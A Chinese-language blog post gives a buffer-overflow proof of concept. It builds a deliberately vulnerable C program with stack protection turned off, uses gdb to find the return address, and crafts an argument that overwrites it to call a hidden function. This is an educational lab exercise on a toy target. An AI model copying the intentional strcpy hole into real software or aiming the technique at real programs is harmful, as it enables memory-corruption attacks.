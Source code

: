 ```yaml
---
# MUST HAVE BEG
layout: post
disqus_identifier: 20150604-buffer-overflow-poc # DO NOT CHANGE THE VALUE ONCE SET
title: A Buffer Overflow POC
# MUST HAVE END

is_short: true
subtitle:
tags: 
- gdb
- security
- c
date: 2015-06-04 18:00:00
image: 
image_desc: 
---
```


	#include <stdio.h>
	#include <string.h>

	void call_me() {
	    printf("you called me \n");
	}

	void func1(char *s) {
	    char buf[16];
	    strcpy(buf, s); // buffer may overflow here
	}

	int main(int argc, char **argv) {
	    func1(argv[1]);
	}

实验的环境是Ubuntu 14.04.1，gcc 4.8.2。编译的选项如下，

    $ gcc -m32 -fno-stack-protector -g -static poc.cpp -o poc.out

目标是构造一个输入字符串覆盖函数`func1`的返回地址，使得函数`call_me`被调用到，比如，

    $ ./poc.out some-input-string-to-overflow-buffer

当程序执行到`func1`的时候，[stack][1]大概是这个样子：

    | func1's local variable | 低地址方向
    | like buf[16]           |
    |------------------------|
    | main's ebp             | <= 当前的ebp
    |------------------------|
    | return address         | <= 返回地址，就是func1返回后，main函数应该执行的下一条指令
    |------------------------|
    | main's stack ...       | 高地址方向

如果把上图中的`return address`修改成`call_me`的函数地址就可以让`call_me`被调用到。

通过`nm`可以查看`call_me`的地址（`call_me`两边的字符是C++ name mangling的副作用）

    $ nm poc.out | grep call_me
    08048e24 T _Z7call_mev

用[gdb的tui模式][2]打开可执行文件，

    $ gdb -tui poc.out

<!-- at least one blank line before <div>, <p>, <pre> or <table>,
and one blank after </div>.
but you can use <span>, <cite>, <del> freely -->
<div style="text-align: center;">
  <img src="/images/blog/buf-overflow-poc.png" alt="gdb tui snapshot" style="width:620px;">
</div>

	(gdb) set disassembly-flavor intel  # 让gdb在显示汇编时使用intel风格
	(gdb) ctrl-x 2                      # 在tui模式下同时显示代码和汇编窗口
	(gdb) focus asm                     # 焦点设在汇编窗口上，可以用上下箭头滚动窗口
	(gdb) b main                        # 进入程序时，先断住
	(gdb) run abc                       # 运行可执行文件时传入一个参数“abc”

滚动一下汇编窗口可以找到`func1`函数的返回地址`0x8048e6b`，就是`call`指令的下一条指令的地址，

    │0x8048e66 <main(int, char**)+20>        call   0x8048e38 <func1(char*)>
    │0x8048e6b <main(int, char**)+25>        mov    eax,0x0 

让程序执行到`func1`函数里，然后停住。这时，可以检查下stack是不是和上面画的示意图一致。

	(gdb) x $ebp+4
	0xffffcf9c:     0x08048e6b

`$ebp+4`（`+4`，因为可执行程序是编译成32位的）存的就是返回地址，确实是`0x8048e6b`。

函数`func1`对应的汇编指令如下，

     │0x8048e38 <func1(char*)>        push   ebp            
     │0x8048e39 <func1(char*)+1>      mov    ebp,esp     
     │0x8048e3b <func1(char*)+3>      sub    esp,0x28        
    >│0x8048e3e <func1(char*)+6>      mov    eax,DWORD PTR [ebp+0x8]     
     │0x8048e41 <func1(char*)+9>      mov    DWORD PTR [esp+0x4],eax      
     │0x8048e45 <func1(char*)+13>     lea    eax,[ebp-0x18]             
     │0x8048e48 <func1(char*)+16>     mov    DWORD PTR [esp],eax     
     │0x8048e4b <func1(char*)+19>     call   0x80481e0         
     │0x8048e50 <func1(char*)+24>     leave 
   
`call`指令会调用库函数`strcpy()`进行buffer的拷贝。在`leave`指令处设一个断点，检查下buffer拷贝的效果。

    (gdb) b *0x8048e50        #在leave处break

检查一下局部变量`buf[]`对应的内存，看看“abc”是否已经被拷贝到`buf[]`上了。`a`，`b`，`c`对应的ASCII码
为`0x61`，`0x62`，`0x63`。可以通过`man ascii`快速查看一下ASCII码表，

    $ man ascii
       Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
       ────────────────────────────────────────────────────────────────────────
       000   0     00    NUL '\0'                    100   64    40    @
       001   1     01    SOH (start of heading)      101   65    41    A
       ...
       041   33    21    !                           141   97    61    a
       042   34    22    "                           142   98    62    b
       043   35    23    #                           143   99    63    c

在gdb里检查`buf[]`对应的内存，

	(gdb) x/16bx $ebp-16   ＃'b'，以Byte为单位检查内存， '16'，检查16个Byte
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

并没有发现“abc”对应的字节。这是因为内存是以8字节对齐的。扩大内存的检查范围就可以看到`a`，`b`，`c`，

	(gdb) x/24   # 24 = 8 * 3
	0xffffcf80:     0x61    0x62    0x63    0x00    0x50    0xd0    0xff    0xff
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

所以为了覆盖`func1`的返回地址，需要24（`buf[16]`）＋ 4（`ebp`） ＋ 4（`0x08048e24`）＝ 32字节。

	$ ./poc.out 1234567890123456789012345678$'\x24'$'\x8e'$'\x04'$'\x08'
	you called me 
	Segmentation fault (core dumped)

通过`$'\x24'`可以在终端里输入一个非打印字符（详见`man bash`）。因为实验机器的字节序是Little Endian，
低位存放在内存低地址处，所以通过`$'\x24'$'\x8e'$'\x04'$'\x08'`来表示`0x08048e24`。

程序最后出现了Segmentation fault，应该是因为没有为`call_me`设立正确的返回地址导致的。

另外，快速查看机器字节序（Byte Order）的一个方法，
   
	$ lscpu
	Architecture:          x86_64
	CPU op-mode(s):        32-bit, 64-bit
	Byte Order:            Little Endian
   ...

Have Fun😄

[1]: http://www.csee.umbc.edu/~chang/cs313.s02/stack.shtml "stack"
[2]: /gdb-tui-mode.html "gdb tui mode"



